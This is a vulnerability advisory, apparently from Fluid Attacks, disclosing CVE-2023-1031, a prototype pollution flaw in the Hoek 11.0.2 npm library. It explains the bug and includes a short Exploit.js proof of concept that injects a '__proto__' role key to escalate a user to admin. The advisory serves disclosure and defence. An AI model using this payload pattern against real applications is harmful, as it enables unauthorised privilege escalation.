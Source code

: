 ```yaml
---
slug: advisories/brejcha/
title: Hoek 11.0.2 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: brejcha
product: Hoek 11.0.2 - Prototype Pollution
date: 2023-03-06 12:00 COT
cveid: CVE-2023-1031
severity: 7.3
description: Hoek v11.0.2         -         Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, Prototype Pollution, Hoek, NPM
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Hoek v11.0.2 - Prototype Pollution                                 |
| **Code name**         | [Brejcha](https://es.wikipedia.org/wiki/Boris_Brejcha)             |
| **Product**           | Hoek                                                               |
| **Affected versions** | Version 11.0.2                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-03-06                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-1031](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1031)                                               |

## Description

Hoek version 110.2 allows an external attacker to editor add new properties
to an object. This is possible because the application does not properly
validate incoming JSON keys, thus allowing the `__proto__` property to be
edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when a
third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so, then
it calls it. If not, it looks in the object's prototype. If the method/attribute
is also not in the object's prototype, then the property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property into an
object, he will succeed in injecting or editing its properties.

## Exploitation

### Exploit.js

```js
const Hoek = require('@hapi/hoek');

let normal_user_request    = {"user":"bob","role":"admin"};
let malicious_user_request = {"user":"hacker","__proto__":{"role":"admin"}};

const create_user = (new_user) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    if(new_user.hasOwnProperty("role")) {
        console.log("Unauthorized Action");
    }
    else {
        user = Hoek.clone(new_user);
        console.log(user?.role);
    }
}

create_user(normal_user_request);
create_user(malicious_user_request);
```

### Evidence of exploitation

![hoek-exploitation-evidence](https://user-images.githubusercontent.com/51862990/221669107-0ef0d401-f50b-42c4-95d9-0aa11dc95b98.png)

## Our security policy

We have reserved the ID CVE-2023-1031 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Hoek 11.0.2

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/hapijs/hoek/>

## Timeline

<time-lapse
  discovered="2023-02-27"
  contacted="2023-02-27"
  replied="2023-02-27"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
